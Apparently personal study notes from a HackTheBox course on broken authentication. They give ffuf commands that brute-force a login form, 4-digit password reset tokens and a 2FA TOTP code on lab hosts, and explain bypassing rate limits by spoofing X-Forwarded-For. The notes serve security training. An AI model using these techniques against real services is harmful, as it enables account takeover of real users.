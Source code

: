 # Broken Authentication
- - The most widespread authentication method in web applications is login forms, where users enter their username and password to prove their identity.
-[Enumerating users with SecLists](https://github.com/danielmiessler/SecLists/tree/master/Usernames)
- An example of a side channel is the response timing.
- When enumerating users, youre probably doing it against index.php
- Another reminder to run everything twice, and to use different tools. They aren't always reliable
- rockyou.txt is 14mil passwords so use grep to create a .txt off rockyou.txt: `grep '[[:upper:]]' /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt` --> `wc -l custom_wordlist.txt`
- Enumerate with usernames with something like: `ffuf -w ./custom_wordlist.txt -u http://94.237.52.18:57531/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username"`
- Can expliot password reset tokens by requesting a password reset token yourself. If it's 4 digits (e.g `http://weak_reset.htb/reset_password.php?token=7351` then we know then it's likely the token is going to likely be between 0 and 10,000 (4 digits) which we can bruteforce.
- A txt file for this: `seq -w 0 9999 > tokens.txt` The -w flag pads all numbers to the same length by prepending zeroes, which we can verify by looking at the first few lines of the output file:`head tokens.txt`
- Assuming that there are users currently in the process of resetting their passwords, we can try to brute-force all active reset tokens.
- Command in ffuf: `ffuf -w ./tokens.txt -u http://weak_reset.htb/reset_password.php?token=FUZZ -fr "The provided token is invalid"`
- One of the most common 2FA implementations relies on the user's password and a time-based one-time password (TOTP) provided to the user's smartphone by an authenticator app or via SMS. These TOTPs typically consist only of digits, making them potentially guessable if the length is insufficient and the web application does not implement measures against successive submission of incorrect TOTPs
- ffuf time-based one time password (TOTP ): `ffuf -w ./tokens.txt -u http://bf_2fa.htb/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=fpfcm5b8dh1ibfa7idg0he7l93" -d "otp=FUZZ" -fr "Invalid 2FA Code"`
- ^^ Grab the PHPSESSID from logging in as the user (assuming you have those creds). And you will get many hits if you let it run, that is because our session successfully passed the 2FA check after we had supplied the correct TOTP. Since 6513 was the first hit, we can assume this was the correct TOTP. Afterward, our session is marked as fully authenticated, so all requests using our session cookie are redirected to /admin.php. To access the protected page, we can simply access the endpoint /admin.php in the web browser and see that we successfully passed 2FA.
- In terms of rate limiting - if there are middleboxes such as reverse proxies, load balancers, or web caches, a request's source IP address will belong to the middlebox, not the attacker. Thus, some rate limits rely on HTTP headers such as X-Forwarded-For to obtain the actual source IP address. However, this causes an issue as an attacker can **set arbitrary HTTP headers in request**, bypassing the rate limit entirely. This enables an attacker to conduct a brute-force attack by randomizing the X-Forwarded-For header in each HTTP request to avoid the rate limit.
- In terms of CAPTCHA, it is essential not to reveal a CAPTCHA's solution in the response. (Check page source for CAPTCHA string)
- However, even if a web application utilizes rate limiting and CAPTCHAs, business logic bugs within the password reset functionality can allow taking over other users' accounts. i.e brute force 'City you were born in' question
- Reminder: When wget returns the HTML of a page instead of the file you're trying to download, it's usually because you're using the wrong URL.
- [Authentication Bypass via Direct Access]([url](https://academy.hackthebox.com/module/80/section/780))
- 
